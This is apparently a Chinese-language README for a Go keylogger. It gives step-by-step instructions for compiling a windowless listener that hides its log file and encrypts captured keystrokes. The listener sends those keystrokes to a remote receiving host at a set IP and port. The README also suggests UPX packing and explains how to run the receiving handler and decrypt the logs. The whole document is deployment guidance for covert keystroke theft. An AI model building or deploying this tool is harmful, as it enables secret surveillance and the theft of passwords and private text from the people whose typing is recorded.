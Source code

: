 ### 一. 安装Go语言环境
下载对应版本，例如windows64位: go1.13.5.windows-amd64.msi，就单纯编译这程序的话，全部默认下一步就好
```
https://studygolang.com/dl # 官网被墙，可以使用这个
```
### 二. 安装upx(可选)
下载对应版本，例如windows64位: upx-3.95-win64.zip，是个二进制文件可执行文件免安装
```
https://github.com/upx/upx/releases/tag/v3.95
```

### 三. listener
键盘监听程序

#### 参数配置
##### 1. 编译后，以命令行参数的方式进行传入
```
$ keylistener.exe -h
    -E
       encode text (default false)
    -H
       hidden file (default false)
    -lh string
       listener host
    -o string
       output to file (default "c:\\sys\\key.txt")
```

参数：

* -E : 进行文本加密
* -H : 隐藏记录文件
* -lh: 远程接收主机地址
* -o: 本地暂存文件的路径

示例：
进行文本加密， 隐藏记录文件，并把记录发送到， 192.168.1.148:8080
```
$ keylistener.exe -E -H -lh 192.168.1.148:8080
```

##### 2. 设置默认参数，无需手动输入, 编译后直接启动程序可以使用
自行修改listener/main.go下面这几行代码代码

```
// 默认配置
const (
	defaultPath     = "c:\\sys\\key.txt"     // 默认文件保存路径
	defaultHost     = "192.168.252.130:8080" // 默认远程接收地址
	defaultIsEncode = true                   // 默认进行文本加密
	defaultIsHidden = true                   // 默认进行文件隐藏
)
```

#### 编译

##### 1. 进入程序目录
```
$ cd keyboard/listener
```

##### 2. 编译程序
```
$ go build -ldflags "-s -w -H windowsgui" -o keylistener.exe *.go
```

##### 3. 可选，使用upx压缩程序（据说能起到一定加壳作用）
```
$ upx -9 keylistener.exe
```

### 四. handler
记录接收的远程端，也可以用于解密加密过的键盘记录文件

##### 1. 进入程序目录
```
$ cd keyboard/handler
```

##### 2. 编译程序
```
$ go build -o keyhandler.exe *.go
```

##### 3. 参数
```
  -D    decode text
  -df string
        decode file
  -o string
        output to file
  -p string
        port
```
* -D: 是否需要解密，如果发送端进行加密，可使用此参数进行解密
* -df: 解密文件，后面接文件路径
* -o: 输出文件路径
* -p: 服务端端口地址

示例：

1. 监听8080端口,并对记录进行解密
```
$ keyhandler.exe -D -p 0.0.0.0:8080
```

2. 解密加密文件
```
$ keyhandler.exe -df key.txt -o log.txt
```

